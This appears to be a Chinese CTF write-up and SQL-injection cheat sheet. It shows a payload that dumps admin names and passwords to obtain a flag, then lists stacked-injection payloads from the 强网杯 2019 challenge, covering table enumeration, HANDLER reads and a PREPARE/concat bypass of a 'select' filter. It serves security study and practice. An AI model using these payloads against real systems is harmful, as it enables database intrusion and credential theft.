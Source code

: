 ![img](https://img-blog.csdnimg.cn/bc7c9db2df4f4fe49b86c081b1bc27af.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAODd4MDA=,size_20,color_FFFFFF,t_70,g_se,x_16)

 !!!!!!!!@@@@@@@@@

没有''查表。采用字符串转16进制来解决

group_concat(admin_name,0x3a,pwd)%20from%20blue_admin



3.用刚才拿到的username和passwd回到一开始的登陆页面输入再登陆，flag就出来啦。

![img](https://img-blog.csdnimg.cn/5dbb9061e0db438093d8941e2de67df5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAODd4MDA=,size_20,color_FFFFFF,t_70,g_se,x_16)

 

没有什么过滤和其他难点，主要是要找到注入点和看回显的位置

![1694227909339](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1694227909339.png)



## SQL注入的一些语句

###### 堆叠注入

[强网杯 2019\]随便注 【SQL注入】四种解法_[强网杯 2019]随便注-CSDN博客](https://blog.csdn.net/weixin_38832257/article/details/126395256?ops_request_misc=&request_id=&biz_id=102&utm_term=[强网杯 2019]随便注&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-1-126395256.142^v99^pc_search_result_base1&spm=1018.2226.3001.4187)

```
1’;show databases;#

1';show+tables;#`获取到所有的表

1’;show columns from FlagHere;#
或 1’;show columns from `FlagHere`;#
注
方式一：1'; show columns from tableName;#
方式二：1';desc tableName;#
#注意，如果tableName是纯数字，需要用`包裹，比如
1';desc `1919810931114514`;#


//获取数据
1';
handler FlagHere open;
handler FlagHere read first;
handler FlagHere close;
同理，如果表是数字的话要加``
当select被过滤
1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE  hacker;#


设置 sql_mode=PIPES_AS_CONCAT来转换操作符的作用。（sql_mode设置）
利用PIPES_AS_CONCAT令||起到连接符的作用
1;set sql_mode=PIPES_AS_CONCAT;select 1


```
